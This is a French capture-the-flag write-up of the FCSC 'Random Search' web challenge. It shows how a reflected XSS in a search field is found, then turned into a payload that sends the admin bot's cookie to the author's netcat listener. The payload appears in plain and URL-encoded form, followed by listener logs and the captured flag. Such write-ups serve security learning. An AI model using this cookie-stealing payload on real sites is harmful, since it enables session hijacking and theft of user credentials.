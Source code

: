 # Random Search


![intro](assets/randomsearch.png)

# Petit tour

Sur ce challenge, nous nous connectons sur un serveur avec un application de recherche de sites.

![acceuil](assets/acceuil.png)

Il y a un champ de recherche et une page de contact.

![search](assets/search.png)

![contact1](assets/contact1.png)

# Recherche de la faille

Comme l'énoncé l'explique, il faut ici récupérer le contenu du cookie de l'administrateur.
Pour ce faire, il faut exploiter une faille [XSS](https://fr.wikipedia.org/wiki/Cross-site_scripting).

Nous avons 2 champs de formulaire ici. Un champ de recherche et un champs de saisie d'[URL](https://fr.wikipedia.org/wiki/Uniform_Resource_Locator) (pour remonter un problème sur les résultats de recherches).

On peut supposer ici que si l'on rentre une [URL](https://fr.wikipedia.org/wiki/Uniform_Resource_Locator), l'administrateur du site va recevoir une notification pour aller voir quelle est la page qui pose problème.

Tout d'abord, on regarde à quoi ressemble le code source de la page des résultats de recherches :

![search-source](assets/source-search.png)

On voit ici la valeur de recherche qui apparait. On va tester si on peut y injecter du code [HTML](https://fr.wikipedia.org/wiki/Hypertext_Markup_Language) (et surtout si on peut executer du [Javascript](https://fr.wikipedia.org/wiki/JavaScript)).

Essayons d'injecter le code suivant :

```html
test</h1><script>alert("prout")</script><h1> plouf
```

Résultat :

![xss-test](assets/xss-test.png)

BINGO !

L'injection a marché ici :

![xss-test-source](assets/xss-test-source.png)

On voit ici qu'on a réussi a injecter sur code [HTML](https://fr.wikipedia.org/wiki/Hypertext_Markup_Language) et [Javascript](https://fr.wikipedia.org/wiki/JavaScript) dans la page, et que donc les caractères ne sont pas [échappés](https://fr.wikipedia.org/wiki/Caract%C3%A8re_d%27%C3%A9chappement).


# Exploit

Nous savons donc que :
- Une faille [XSS](https://fr.wikipedia.org/wiki/Cross-site_scripting) est présente.
- Que l'on peut injecter du [Javascript](https://fr.wikipedia.org/wiki/JavaScript).

On peut supposer que :
- Le formulaire de contact permet d'envoyer à l'administrateur un lien et donc, de le stocker quelque part (en base de données par exemple).
- L'administrateur passe à un moment donné sur cette page pour vérifier le problème.

Faisons un test d'injection qui pourrait faire une requete sur un serveur que nous contrôlons pour voler le cookie.

[Exploit](https://fr.wikipedia.org/wiki/Exploit_(informatique)) :

```html
https://www.ecuri.es/truc</h1><script>document.write('<img src="http://ecuri.es:1234?cookie=' + document.cookie + '" />')</script><h1> plouf
```

Dans le champ de recherche, on met une [URL](https://fr.wikipedia.org/wiki/Uniform_Resource_Locator) valide, puis on ferme la balise [HTML](https://fr.wikipedia.org/wiki/Hypertext_Markup_Language) `</h1>`.

On injecte du [Javascript](https://fr.wikipedia.org/wiki/JavaScript) qui dit d'ajouter une image qui se trouve sur l'[URL](https://fr.wikipedia.org/wiki/Uniform_Resource_Locator) `http://ecuri.es:1234?cookie=` auquel on concatène la valeur des cookies du navigateur que l'on récupère via `document.cookie`. Puis, on ferme la balise de script et on rouvre une balise `<h1>` avec du contenu divers pour ne pas casser le [DOM](https://fr.wikipedia.org/wiki/Document_Object_Model) [HTML](https://fr.wikipedia.org/wiki/Hypertext_Markup_Language).

Sur mon serveur (ecuri.es), j'ai ouvert le port 1234 avec [netcat](https://fr.wikipedia.org/wiki/Netcat) pour voir la requête [HTTP](https://fr.wikipedia.org/wiki/Hypertext_Transfer_Protocol) qui est executée et voir le résultat de notre [Exploit](https://fr.wikipedia.org/wiki/Exploit_(informatique)).

L'exploit executé :

![xss2](assets/xss2.png)

On voit ici que l'on a une image "cassée". Normal vu qu'il essaye de récupérer une image sur http://ecuri.es:1234 qui n'existe pas.

Résultat de [netcat](https://fr.wikipedia.org/wiki/Netcat) :

```shell
root@ecurie:~# nc -lvp 1234
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.xxx] from xxxxxxxx [xxx.xxx.xxx.x] 34149
GET /?cookie= HTTP/1.1
Host: ecuri.es:1234
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: image/webp,*/*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://challenges2.france-cybersecurity-challenge.fr:5001/
```

On voit ici qu'on récupère bien une requête executée par le navigateur.

On remarque aussi le `GET /?cookie=` que l'on a injecté dans le code [Javascript](https://fr.wikipedia.org/wiki/JavaScript).


Nous allons donc soumettre ce [payload](https://fr.wikipedia.org/wiki/Charge_utile) (encodé en [URL encoding / encodage pourcent](https://fr.wikipedia.org/wiki/Encodage-pourcent) (en français)) sur la page de contact du site en croisant les doigts pour que l'administrateur clique dessus. (En vrai, il n'y a pas un humain qui valide chaque lien qu'on lui envoie. Sinon le pauvre... C'est un bot qui tourne et qui simule un administrateur (Oui, on sait, parfois, automatiser des administrateurs systemes ;)).

```url
http%3A%2F%2Fwww.ecuri.es%2Ftruc%3C%2Fh1%3E%3Cscript%3Edocument.write(%27%3Cimg%20src%3D%22http%3A%2F%2Fecuri.es%3A1234%3Fcookie%3D%27%20%2B%20document.cookie%20%2B%20%27%22%20%2F%3E%27)%3C%2Fscript%3E%3Ch1%3E%20plouf
```

![xss3](assets/xss3.png)

On patiente un petit peu, et tout d'un coup, dans notre shell sur le serveur de tout à l'heure :

```shell
root@ecurie:~# nc -lvp 1234
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.xxx] from ns3049096.ip-151-80-29.eu [151.80.29.147] 47574
GET /?cookie=admin=FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633} HTTP/1.1
Host: ecuri.es:1234
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://random-search-web:5001/
Connection: keep-alive
```

ET PLOUF ! On récupère le contenu des cookies de l'administrateur qui contient le flag !

```
FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633}
```

![cat](assets/lolcat.jpg)
